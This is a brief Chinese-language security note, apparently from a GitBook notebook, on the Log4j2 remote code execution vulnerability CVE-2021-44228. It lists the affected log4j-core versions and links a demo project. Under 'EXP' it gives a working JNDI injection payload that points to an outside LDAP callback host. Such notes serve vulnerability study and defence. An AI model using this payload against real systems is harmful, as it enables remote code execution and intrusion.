# log4j2远程代码执行漏洞(cve-2021-44228)

影响版本

```
log4j2<2.15.0
实际上是log4j-core < 2.15.0即可，后续不知道是否会有变种进行绕过，需要持续关注
```



&#x20;IDEA Project DEMO

{% file src="../../.gitbook/assets/log4j2_RCE_demo.zip" %}

EXP:

```
参数名=${jndi:ldap://e1xhue.dnslog.cn/exp}
```

其存在问题的点在log4j-core这个包，只要这个包的版本比较低，log4j-api这个版本无论多高都没用



